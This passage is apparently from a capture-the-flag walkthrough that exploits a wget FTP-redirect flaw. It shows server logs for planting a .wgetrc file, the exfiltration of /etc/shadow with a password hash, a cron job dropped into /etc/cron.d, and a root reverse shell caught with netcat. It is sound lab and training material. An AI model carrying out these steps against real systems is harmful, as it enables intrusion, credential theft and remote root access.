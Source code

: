 After a minute, the first request comes in, a GET, and it’s handled with the redirect:

```

We have a volunteer requesting /archive.tar.gz by GET :)

Uploading .wgetrc via ftp redirect vuln. It should land in /root 
10.0.3.133 - - [15/May/2021 13:44:01] "GET /archive.tar.gz HTTP/1.1" 301 -
Sending redirect to ftp://anonymous@10.10.10.55:21/.wgetrc

```

Immediately after there’s another connecting on FTP:

```

[I 2021-05-15 13:44:01] 10.0.3.133:38434-[] FTP session opened (connect)
[I 2021-05-15 13:44:01] 10.0.3.133:38434-[anonymous] USER 'anonymous' logged in.
[I 2021-05-15 13:44:01] 10.0.3.133:38434-[anonymous] RETR /tmp/.0xdf/.wgetrc completed=1 bytes=70 seconds=0.002
[I 2021-05-15 13:44:01] 10.0.3.133:38434-[anonymous] FTP session closed (disconnect).

```

Now the config file is in place, the next time the script tries to run, I should see a POST request. It worked:

```

We have a volunteer requesting /archive.tar.gz by POST :)
                                        
Received POST from wget, this should be the extracted /etc/shadow file:   
---[begin]---
 root:*:17366:0:99999:7:::
daemon:*:17366:0:99999:7:::
bin:*:17366:0:99999:7:::
...[snip]...
sshd:*:17366:0:99999:7:::
ubuntu:$6$edpgQgfs$CcJqGkt.zKOsMx1LCTCvqXyHCzvyCy1nsEg9pq1.dCUizK/98r4bNtLueQr4ivipOiNlcpX26EqBTVD2o8w4h0:17368:0:99999:7:::
---[eof]---

Sending back a cronjob script as a thank-you for the file...
It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)
10.0.3.133 - - [15/May/2021 13:46:01] "POST /archive.tar.gz HTTP/1.1" 200 -

File was served. Check on /root/hacked-via-wget on the victim's host in a minute! :)

```

The `shadow` file doesn’t have anything that useful in it. But hopefully this indicates that the `cron` was written. One minute later:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.55] 48402
bash: cannot set terminal process group (3240): Inappropriate ioctl for device
bash: no job control in this shell
root@kotarak-int:~# id
uid=0(root) gid=0(root) groups=0(root)

```
